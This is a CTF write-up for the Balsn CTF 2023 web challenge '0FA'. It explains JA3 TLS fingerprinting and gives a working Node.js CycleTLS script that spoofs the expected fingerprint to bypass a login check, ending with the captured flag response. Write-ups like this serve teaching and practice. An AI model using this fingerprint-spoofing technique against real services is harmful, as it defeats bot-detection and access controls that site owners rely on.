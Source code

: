 ### 0FA - balsnctf 2023 - web

![Challenge Description](chall_2023-10-08_18-01.png "Challenge Description")

### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at https://localhost:8787/index.php

### Writeup

Looking at flag.php we have the following:
```
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
```

This means that to get the flag we need to send the username POST parameter as admin and we have to bypass the following fingerprint_check function:
```
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

JA3 is a method of TLS fingerprinting that was inspired by the [research](https://blog.squarelemon.com/tls-fingerprinting/) and works of [Lee Brotherston](https://twitter.com/synackpse) and his TLS Fingerprinting tool: [FingerprinTLS](https://github.com/LeeBrotherston/tls-fingerprinting/tree/master/fingerprintls). 

JA3 gathers the decimal values of the bytes for the following fields in the Client Hello packet; SSL Version, Accepted Ciphers, List of Extensions, Elliptic Curves, and Elliptic Curve Formats. It then concatenates those values together in order, using a "," to delimit each field and a "-" to delimit each value in each field.

The field order is as follows:
```
SSLVersion,Cipher,SSLExtension,EllipticCurve,EllipticCurvePointFormat
```

If you want to know more about JA3 fingerprinting I recommend the following resources:
- https://github.com/salesforce/ja3 (source of the explanation above)
- https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967/

To spoof the JA3 fingerprint that the server is expecting I've used the following project:
- https://github.com/Danny-Dasilva/CycleTLS

And created the following code:
```
const initCycleTLS = require('cycletls');

(async () => {
  const cycleTLS = await initCycleTLS();

  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    headers: {"Content-Type": "application/x-www-form-urlencoded",},
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'
  }, 'post');

  console.log(response);
  cycleTLS.exit();
})();
```

To run this code go to the solution folder and run the following:
```
npm install
node attack.ts
```

Since the code is sending the expected username and spoofing the JA3 fingerprint we are able to retrieve the flag:
```
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{fake_flag}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Sun, 08 Oct 2023 17:41:54 GMT',
    Server: 'nginx/1.23.1'
  }
}
```
